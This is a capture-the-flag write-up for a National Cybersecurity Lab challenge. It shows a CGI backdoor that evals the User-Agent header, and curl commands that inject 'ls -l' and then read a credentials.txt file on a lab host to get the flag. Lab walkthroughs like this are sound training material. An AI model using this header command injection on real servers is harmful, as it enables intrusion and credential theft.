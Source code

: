 Challenge: Find The Flag

Category: National Cybersecurity Lab (NCL)

>You have found a secret backdoor into the machine, but how do you operate it?

>Could you possibly find a way to use the backdoor to find the secret password to access the machine?

>You will know the flag when you find the secret password!

From "Find The Flag" (Part 1), I found /cgi-bin/parametersbackdoor.sh from robots.txt.

```sh
curl http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```

And we see this:
![backdoor](backdoor.png)

From this code, we can tell that:

```python
command="$HTTP_USER_AGENT"
```
The HTTP user agent is assigned to the "command" variable.

```python
output=$(eval "$command" 2>&1)
```
The "command" variable is executed and output is assigned to the "output" variable.

So I tested it with

```sh
curl -H "User-Agent: ls -l" http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```
![lsla](lsla.png)

and it works!!

So with some adjustments..
```sh
curl -H "User-Agent: cat ../../../credentials.txt" http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```

![credentials](credentials.png)

And we found the flag!

> flag{b@rrow-wight}